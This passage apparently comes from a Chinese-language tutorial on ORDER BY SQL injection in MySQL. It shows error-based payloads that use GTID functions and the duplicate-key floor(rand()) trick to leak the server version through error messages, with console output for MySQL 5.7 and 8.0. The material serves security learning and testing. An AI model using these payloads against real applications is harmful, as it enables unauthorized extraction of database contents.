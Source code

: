 #### 3）GTID报错

```sql
# mysql 5.7.26
mysql&gt; select * from users where username like &#39;admin%&#39; order by users.id/(gtid_subtract(version(),1));
ERROR 1772 (HY000): Malformed GTID set specification &#39;5.7.26&#39;.
mysql&gt;
mysql&gt; select * from users where username like &#39;admin%&#39; order by users.id/(gtid_subset(version(),1));
ERROR 1772 (HY000): Malformed GTID set specification &#39;5.7.26&#39;.
mysql&gt;
```

![图片](/resource/SQL注入之OrderBy位置点注入.assets/640-20230814165418105.png)

```sql
# mysql 8.0.31
mysql&gt; select * from users order by users.id/(gtid_subtract(version(),1));
ERROR 1772 (HY000): Malformed GTID set specification &#39;8.0.31&#39;.
mysql&gt; 
mysql&gt; select * from users order by users.id/(gtid_subset(version(),1));
ERROR 1772 (HY000): Malformed GTID set specification &#39;8.0.31&#39;.
```

![图片](/resource/SQL注入之OrderBy位置点注入.assets/640-20230814165459330.png)

#### 4）Duplicate key报错

```sql
# mysql 5.8.26
mysql&gt; select * from users where username like &#39;admin%&#39; order by (select 1 from (select count(*),concat(version(),&#39;~&#39;,floor(rand(0)*2))x from information_schema.tables group by x)a);
ERROR 1062 (23000): Duplicate entry &#39;5.7.26~1&#39; for key &#39;&lt;group_key&gt;&#39;

mysql&gt; select * from users where username like &#39;admin%&#39; order by (select count(*) from information_schema.tables group by concat((select version()),0x7e,floor(rand(0)*2)));
ERROR 1062 (23000): Duplicate entry &#39;5.7.26~1&#39; for key &#39;&lt;group_key&gt;&#39;
```
